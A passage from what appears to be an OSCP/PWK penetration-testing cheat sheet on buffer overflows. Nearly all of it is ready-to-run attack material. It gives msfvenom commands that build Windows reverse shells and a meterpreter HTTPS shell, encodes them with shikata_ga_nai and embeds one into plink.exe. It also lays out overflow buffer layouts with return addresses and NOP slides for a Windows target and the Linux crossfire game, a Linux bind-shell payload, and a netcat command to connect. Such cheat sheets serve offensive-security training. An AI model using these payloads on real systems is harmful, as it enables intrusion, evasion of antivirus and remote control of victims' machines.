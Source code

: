 msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"

    - Final Payload with NOP slide

buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode

    - Create a PE Reverse Shell

msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f
exe -o shell_reverse.exe

    - Create a PE Reverse Shell and Encode 9 times with Shikata_ga_nai

msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f
exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe

    - Create a PE reverse shell and embed it into an existing executable

msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe

    - Create a PE Reverse HTTPS shell

msfvenom -p windows/meterpreter/reverse_https LHOST=$ip LPORT=443 -f exe -o met_https_reverse.exe

- Linux Buffer Overflows
    - Run Evans Debugger against an app

edb --run /usr/games/crossfire/bin/crossfire

    - ESP register points toward the end of our CBuffer

add eax,12
jmp eax
83C00C add eax,byte +0xc
FFE0 jmp eax

    - Check for “Bad Characters” Process of elimination - Run multiple times 0x00 - 0xFF
    - Find JMP ESP address

"\x97\x45\x13\x08" # Found at Address 08134597

    - crash = "\x41" * 4368 + "\x97\x45\x13\x08" + "\x83\xc0\x0c\xff\xe0\x90\x90"
    - msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f c -b "\x00\x0a\x0d\x20" –e x86/shikata_ga_nai
    - Connect to the shell with netcat:

nc -v $ip 4444

# [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='66'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='1856' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/m0chan/pwk-cheatsheet#shells)Shells
